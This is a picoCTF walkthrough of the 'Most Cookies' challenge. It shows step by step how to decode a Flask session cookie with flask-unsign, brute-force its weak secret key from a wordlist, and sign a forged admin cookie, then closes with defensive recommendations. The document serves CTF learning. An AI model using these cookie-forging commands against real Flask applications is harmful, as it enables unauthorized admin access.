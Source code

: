 # 🛡️ PicoCTF Lab Walkthrough – Most Cookies

## 📌 Challenge Info

* **Category**: Web Exploitation
* **Difficulty**: Medium

---

## 📝 Challenge Description

Forge a Flask session cookie to gain admin privileges and retrieve the flag.

---

## 🔍 Initial Recon

* **Files provided**: None
* **Services/Ports**: Web app using Flask session cookies
* **Hints given**: Flask session manipulation and secret key brute-forcing

---

## 🛠️ Tools & Commands Used

| Tool / Command      | Purpose                                              |
| ------------------- | ---------------------------------------------------- |
| `flask-unsign`      | Decode, brute-force, and forge Flask session cookies |
| Browser DevTools    | Modify and replace cookies                           |
| `keys.txt` wordlist | Used for secret key brute-force                      |

---

## 🧠 Step-by-Step Solution

1. **Cookie Extraction**

   * Captured session cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIiRgg.9XpQdaf_wapHmc-JaEH_T1tG6Co
   ```

2. **Cookie Decoding**

   * Ran:

   ```bash
   flask-unsign --decode --cookie "<cookie>"
   ```

   * Revealed:

   ```json
   {"very_auth": "blank"}
   ```

3. **Secret Key Brute-Force**

   * Ran:

   ```bash
   flask-unsign --unsign --cookie "<cookie>" --wordlist keys.txt
   ```

   * Found secret key: **`peanut butter`**

4. **Cookie Forging**

   * Forged new cookie with:

   ```bash
   flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "peanut butter"
   ```

   * Resulting cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIiU1w.sBfCkJfBCOImLsUnHsgNQNpayJw
   ```

5. **Flag Retrieval**

   * Replaced session cookie in browser → accessed page as **admin** → flag revealed.

---

## 🧾 Flag

picoCTF{\[flag]\}

---

## 📚 Learning Outcomes

* Flask session cookies can be manipulated if secret keys are weak.
* Brute-forcing the secret key allows privilege escalation.
* Secure session management is critical to prevent cookie forgery.

---

## 🔒 Recommendations

1. **Input Validation**: Sanitize and validate all user inputs to prevent SQL injection, command injection, and path traversal.
2. **Secure Configuration**: Avoid exposing sensitive files and restrict directory access.
3. **Server-Side Authentication**: Never rely on client-side checks or obfuscation.
4. **Secure Cookie Handling**: Use long, unpredictable secret keys and secure cookie attributes.
5. **Database Security**: Enforce least privilege and strong credentials.

---
